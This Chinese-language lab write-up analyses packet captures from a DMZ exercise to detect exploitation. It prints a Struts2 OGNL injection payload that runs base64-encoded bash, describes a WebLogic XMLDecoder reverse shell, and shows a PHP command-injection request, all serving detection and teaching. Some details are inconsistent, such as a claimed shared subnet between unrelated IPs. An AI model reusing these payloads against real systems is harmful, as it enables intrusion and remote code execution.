




# 漏洞攻防场景DMZ之漏洞利用检测

## 第一层靶机漏洞利用检测
* 将在受害者主机中抓的网络包进行wirshark分析
* 查找对入口靶标的http请求

**可以发现攻击者发送了http请求，让靶机漏斗利用成功**

* 追踪tcp流


* 分析这个tcp流：
1. POST报文概述
- 请求方法: ```POST / HTTP/1.1```（针对根路径）
- Host: ```192.168.70.4:8224```（目标服务器IP和端口）
- User-Agent: 伪装成Chrome/Edge浏览器（常见于攻击中，以绕过基础WAF检测）
- Content-Type: ```application/x-www-form-unlencoded```（应为application/x-www-form-urlencoded的拼写错误，但Struts2通常仍会处理）
- Content-Length: 1587（表示Body长度）
- Body参数: id=...（包含恶意URL编码的Ognl表达式）

2. Body的核心是id参数的值，它是一个URL编码的Ognl（Object-Graph Navigation Language）表达式。Ognl是Struts2框架用于处理视图层数据的表达式语言，但不当处理可导致注入漏洞。
```ognl
# URL解码后的Ognl表达式

%{
  (#instancemanager=#application["org.apache.tomeat.InstanceManager"]).
  (#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
  (#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
  (#bean.setBean(#stack)).
  (#context=#bean.get("context")).
  (#bean.setBean(#context)).
  (#macc=#bean.get("memberAccess")).
  (#bean.setBean(#macc)).
  (#emptyset=#instancemanager.newInstance("java.util.HashSet")).
  (#bean.put("excludedClasses",#emptyset)).
  (#bean.put("excludedPackageNames",#emptyset)).
  (#execute=#instancemanager.newInstance("com.alibaba.fastjson.util.JavaBeanInfo")).
  (#execute.exec('bash -c {echo,<base64-command>}|{base64,-d}|bash'))
}
```
- 关键操作:

  - 获取关键对象：通过```#application和#attr```获取Struts2的```InstanceManager和ValueStack```（核心上下文对象）。

  - 操纵```BeanMap```：创建```BeanMap```对象操作上下文，获取```memberAccess```（控制方法访问权限）。

  - 绕过安全限制：设置```excludedClasses```和```excludedPackageNames```为空集合，禁用Struts2的安全沙箱，允许调用任意类和方法。

  - 执行命令：创建```com.alibaba.fastjson.util.JavaBeanInfo```实例，调用其exec方法执行系统命令。

  - 命令结构：**```bash -c {echo,<base64>}|{base64,-d}|bash```**，用于解码并执行Base64编码的命令。

- base64编码的命令结构如下：
```echo  "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('...')[0]).decode('utf-8'))" | python3 || python2```

从而执行了返回bash的操作，从而出现了反弹shell

## 第一层内网靶标漏洞利用检测

* tcp流分析

- 数据流关键特征分析
1. 请求特征
* 请求路径：```POST /_async/AsyncResponseService HTTP/1.1```
* 直接命中漏洞暴露的异步服务接口。

* **Content-Type**：```text/xml```
* 符合SOAP请求格式，用于触发XML解析。

* **SOAPAction**：空值
* 攻击者刻意留空以绕过某些过滤规则。

2. 漏洞利用原理
- 漏洞触发点：WebLogic在解析```WorkContext```标签内的XML数据时，使用```XMLDecoder```进行反序列化，未对用户输入进行有效过滤。

* 攻击链构造：daoao
攻击者构造包含```ProcessBuilder```类的恶意XML，通过SOAP请求提交至漏洞接口。
WebLogic解析```WorkContext```时，触发```XMLDecoder```反序列化操作，加载并执行攻击者指定的命令。
命令执行后，建立反向Shell连接至攻击者控制的服务器（```192.168.70.7:4444```）。

- 绕过防护：
使用```void、array```等标签绕过WebLogic黑名单过滤。
通过Bash命令编码混淆，规避基础的关键字检测。

**攻击成功证据**
* 载荷有效性：
成功调用```ProcessBuilder```执行系统命令。
反向Shell命令符合典型攻击模式（```/dev/tcp为```Bash特有功能）。

* 响应特征：
HTTP 202状态码与漏洞利用场景吻合（无详细错误，静默执行）。

* 环境关联：
攻击目标IP（```192.168.70.7```）与漏洞主机（```192.170.84.3```）处于同一内网段，符合横向渗透逻辑。

## 第二层内网靶标漏洞利用检测
**在攻击完成后，我始终找不到第一层内网到第二层内网的http报文，所以我直接选择了分析自己起的镜像**

* 在受害者主机中进行抓包
```sudo tcpdump -i eth1  -s 0 -w dmz.pcap```

* 在攻击者主机中进行wget命令行注入
```wget "http://192.168.70.4:14909/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result```

* 在受害者主机中进行wireshark抓包分析，过滤条件为```ip.addr==192.168.70.7```

**可以看到攻击过程**
* 对这个攻击报文进行http流分析

### 漏洞利用分析
1. 请求中的 ```cmd=ls%20/tmp``` 参数被直接传递给PHP的命令执行函数
2. 服务器后台直接执行```/bin/sh -c "ls /tmp"```  用户提供的命令，直接拿到了flag